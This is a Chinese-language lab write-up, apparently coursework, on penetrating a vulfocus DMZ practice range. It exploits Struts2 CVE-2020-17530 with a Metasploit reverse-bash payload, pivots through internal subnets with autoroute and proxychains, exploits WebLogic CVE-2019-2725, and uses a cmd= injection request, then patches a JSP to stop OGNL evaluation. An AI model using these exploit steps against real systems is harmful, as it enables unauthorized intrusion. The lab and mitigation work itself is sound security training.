



# DMZ攻击流程及入口漏洞缓解

## 实验环境

- kali
- msfconsole
- vulfocus

## 在 victim 上进行 DMZ 环境搭建

1. 按照要求拉取三个镜像
```
vulfocus/weblogic-cve_2019_2725
vulfocus/struts2-cve_2020_17530:latest
vulshare/nginx-php-flag
```
我在网页上拉取镜像一直失败，最后发现在命令行里面拉取效果是一样的。

2. 启动容器

在容器目录下面start bash.sh启动容器

遇到错误：

查看容器日志
```
docker logs vulfocus-vul-focus-1 --tail 50
```
推测可能原因是Redis 服务未启动。


启动容器的时候要进入容器内部，输入```docker exec -it vulfocus-vul-focus-1 bash```
来启动redis-server:``` redis-server &```

3. 进行子网创建和环境编排

在网页上创建子网

进行场景编排

启动场景

4. 在启动了场景之后，开启对 `struts2-cve_2020_17530`的流量捕获

```bash
container_name="<容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```

该命令在当前路径下创建了一个 `tcpdump`目录，并且将对指定容器监控的流量捕获到目录中


## 在 attacker 进行攻击

### DMZ 入口靶标

1. 利用struts2代码执行漏洞攻破入口

入口靶标页面如下。其中的端口号就是场景启动页面显示的。

更新并初始化 `metasploit`
```
sudo msfdb init
#启动 msfconsole
msfconsole
```

已知要利用的漏洞为 `struts2代码执行漏洞`，进行相关搜索搜索：
```
search structs2 type:exploit
```


使用合适的 exp payload
```
use exploit/multi/http/struts2_multi_eval_ognl
set payload payload/cmd/unix/reverse_bash

# 配置 exp 参数
set rhosts 192.168.56.119 
set rport 64617          
set lhost 192.168.56.113
```

可以show options来查看。
进行相关设置，rhosts设置成自己的虚拟机地址,lhosts、rhosts分别是靶机的ip和端口。`exploit -j`发送

创建了一个sessoin

进入session1，ls/tmp发现第一个flag


### 建立立足点发现靶标2、3、4

对攻击目标进行扫描

可以看出在扫描前 `hosts`的内容只有一个之前指定的 ip 地址，扫描的结果显示发现了 22,80,64617 均为开放端口

查看services情况


将 session 1 的shell 升级为 Meterpreter Shell


进入升级后的 shell 并查看当前网络的情况：


发现入口靶机的内部地址： `192.170.84.3` 并且发现一个新的网段 `192.170.84.0/24`

使用autoroute开启路由转发

- Metasploit Framework的 autoroute 功能是内网渗透中实现路由转发的核心工具，主要用于通过已控制的主机会话（Session）访问内网其他网段的主机或服务。其核心作用是将目标内网的路由规则添加到MSF框架中，使得后续渗透操作可以直接通过该路由访问原本无法直接到达的内网资源

建立新的路由，查看路由

```
run autoroute -s 192.170.84.0/24
run autoroute -p
```


退出当前的 session 进行端口扫描。

搜索并选择portscan模块

```bash
search portscan
use auxiliary/scanner/portscan/tcp
```


查看参数并进行配置
```
show options
# 根据子网掩码
set RHOSTS 192.170.84.2-254
set PORTS 7001
set THREADS 10
exploit
```


这里的 rhosts 设置为 192.170.84.2-254 是因为内网网关ip为192.170.84.1，所以其他的ip一定介于192.170.84.2-254

开始扫描:


可以发现新扫描到的ip:192.170.84.2、192.170.84.3、192.170.84. 4

新扫描到的 ip 被同步到了 `hosts`与 `services`表中：


远程主机连接1080端口，发现是开放

下载proxychain4，修改配置文件，利用1080来代理


访问这些地址的网址，出现404错误，表明网络层联通。
```
sessions -i 1
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.3:7001 -vv
curl http://192.170.84.4:7001 -vv
```


使用三台主机存在的cve-2019-2725漏洞
```
search cve-2019-2725
use 0
```

```
show options
set RHOSTS 192.170.84.2
set lhost 192.168.56.113
run -j
# 查看flag
sessions -c "ls /tmp" -i 3,4,5
```

分别进行连接得到三个shell

查看三个flag


### DMZ内网第二层靶标————最后一个falg

从这里开始，换成ssh连接了，截图界面有所不同
```
sessions -c "ifconfig" -i 3,4,5
```
分别查看192.170.84.2、192.170.84.3、192.170.84.4的ip，寻找进入下一层网络的跳板。在会话4的192.170.84.3中发现新子网 192.169.85.0/24

```
use scanner/portscan/tcp
set RHOSTS 192.169.85.2-254
set ports 80
run 
```
在会话4扫描 192.169.85.0/24


升级会话4，进入meterpreter，将新发现的子网加入 Pivot Route
```
run autoroute -s 192.169.85.0/24
run autoroute -p
```


找到最后一层的主机 192.169.85.2


在会话4试探，对 192.169.85.2 进行curl wget等操作，尝试找到flag
```
#在边缘疯狂试探
curl http://192.169.85.2
wget http://192.169.85.2
#根据提示
wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result
```
最后可以查看到最终flag!


## 入口漏洞缓解

该入口靶标所含有的CVE-2020-17530漏洞是一个OGNL表达式注入漏洞。攻击者可以通过构造恶意的OGNL表达式来执行任意代码。

1. 验证漏洞


构造一个OGNL表达式注入漏洞
```
curl "http://localhost:60221/?id=%25%7B'test'%2B(2000%2B20)%7D"
```

URL 解码后的实际内容：
```
%{ 'test' + (2000 + 20) }
```
当参数值包含` %{...} `时，Struts2 会尝试解析其中的 OGNL 表达式。

如果漏洞存在，服务器会执行这个表达式，响应中会包含计算结果 test2020（或变体）。

如果漏洞已修复，表达式不会被执行，会返回原始字符串或错误。

```
<html>
<head>
    <title>S2-059 demo</title>

</head>
<body>
<a id="test200020" href="/.action;jsessionid=node0ml3zx3ufsgt9yndyooig9yb60.node0">your input id: %{'test'+(2000+20)}
    <br>has ben evaluated again in id attribute</a>
</body>
</html>
```
`id="test200020`表明用户命令已被执行，漏洞利用成功。

2. 分析漏洞触发点并进行修复

禁用 OGNL 表达式的缓解方式需要修改前端 JSP 页面或者配置文件，以避免不安全的 %{} 表达式被解析执行，尤其是用户可控的内容被嵌入到 %{} 中时最危险。
所以进入该容器内部，查找是否有jsp相关文件，对它进行修改：

修改前：


修改 JSP 文件，将原本的 **危险表达式**：

```jsp
<s:a id="%{id}">
```

改成了安全的：

```jsp
<a id="${id}" href="#">
```

这就 **彻底杜绝了 S2-059 / CVE-2020-17530 漏洞的入口**，因为不再触发 `%{}` 的 OGNL 解析。

修改后：


3. 验证修复后的结果

重启容器，再curl一次。
现在的响应结果：

```
<html>
<head>
    <title>S2-059 demo</title>

</head>
<body>

<a id="%{'test'+(2000+20)}" href="#">your input id: %{'test'+(2000+20)}
    <br>has been rendered safely without OGNL evaluation
</a>
</body>
</html>

```
可以看出：

* 原本应该触发 OGNL 表达式执行 的 payload，现在没有被执行；
* `id="%{'test'+(2000+20)}"`说明 `id` 参数中的恶意表达式已经被安全地当作普通字符串处理，而不是被 OGNL 解析执行；

表明漏洞缓解成功。